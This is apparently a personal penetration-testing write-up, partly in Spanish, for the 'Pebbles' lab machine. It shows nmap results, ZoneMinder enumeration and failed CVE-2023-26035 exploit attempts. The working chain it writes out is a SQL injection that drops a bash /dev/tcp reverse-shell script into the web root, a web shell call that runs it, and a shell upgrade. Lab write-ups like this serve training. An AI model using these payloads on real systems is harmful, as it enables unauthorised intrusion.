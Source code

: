 #Pwned! 
# IP
```
192.168.198.52
```

## Nmap

```
PORT     STATE SERVICE REASON         VERSION
21/tcp   open  ftp     syn-ack ttl 61 vsftpd 3.0.3
22/tcp   open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 aa:cf:5a:93:47:18:0e:7f:3d:6d:a5:af:f8:6a:a5:1e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDTlsFY1sjAxyC1lqlzeHAaSC0ec76cB5Hoq6aVwMNphXzrhslKqJJ5L0sjOjQem02G6wukOQ/qIVzUZOPxdn4tlN+YuCRqrE7nSIj36hh6JeG4cI9t3qOJUPndLKuKSyJKwV1Dl7gQKcjS0gxO6kWybHMf4CT9a8QsF8mLDPNU3p5VfsEdrgJ+q5hNOmLYJPqwIHTdCweuSwaORn9wQGlmKphGZJlktEKEPwecDZO5KUc6g3N23G+vWv2uCmAw9ov8AQrePxdjz5/QQ8PdY6zedwcLUFjmL5jx9UhZLhDDf/pzP0wiswgm7DZXG6WHwMCbxNo0zX4/HFDswDHc/W+J
|   256 c7:63:6c:8a:b5:a7:6f:05:bf:d0:e3:90:b5:b8:96:58 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOrgGvGclvZKKtoTk+H0ojQxTTSKljSVFLY8udD6Cb8OQLjgd5F48Em8sa7JjoCa4Mn3USw7EttQLL9a1RNEgio=
|   256 93:b2:6a:11:63:86:1b:5e:f5:89:58:52:89:7f:f3:42 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBSm8eCxMlgt56SQ1z3TjY8R0ZY2MMMlYTB4Bby39xXE
80/tcp   open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Pebbles
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 7EC7ACEA6BB719ECE5FCE0009B57206B
8080/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Tomcat
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

3305/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
```

## Nmap UDP


# Enumeration
## FTP
admin:admin creds not working
## HTTP 80
Apache/2.4.18 (Ubuntu) Server at 192.168.198.52 Port 80
http://192.168.198.52/zm/
 ZoneMinder, v1.29.0
 MooTools 1.4.5
### Directories and files
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240928100334.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240928100348.png?raw=true)
ZoneMinder following exploits not working
https://github.com/heapbytes/CVE-2023-26035
```
python zm-exploit2.py --target http://192.168.198.52:80/zm/index.php --cmd 'ping 192.168.45.250 -c 5'
```
https://github.com/rvizx/CVE-2023-26035
```
python3 zm-exploitmod.py -t http://192.168.198.52:80/zm/ -ip 192.168.45.250 -p 443
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240928115050.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240928114945.png?raw=true)

## HTTP 8080

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240928105538.png?raw=true)

## HTTP 3305
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240928114037.png?raw=true)


![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240928120121.png?raw=true)
Tenemos al usuario sally
Enviamos payload
```
sh -i >& /dev/tcp/192.168.45.250/80 0>&1
```

```
view=request&request=log&task=query&limit=100;select+'sh+-i+>%26+/dev/tcp/192.168.45.250/80+0>%261'+into+outfile+'/var/www/html/revshell3.sh'%3b
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240928121702.png?raw=true)
```
http://192.168.198.52:3305/cmd.php?cmd=/bin/bash%20revshell3.sh
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240928121715.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240928121728.png?raw=true)

Tenemos revshell!
# PrivEsc

## Manual

Upgrade shell with python
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

No consigo que funcione:
```
https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/40053.zip
```

mysql exploit visto en un writeup

```
https://sudsy-fireplace-912.notion.site/Pebbles-from-Proving-Grounds-without-SQLMap-by-Luis-Moret-lainkusanagi-23b29df77e6946a6bb8cb213a76a9ac8
```



## Automated

### Peass

Linux version 4.4.0-21-generic
### Mimikatz


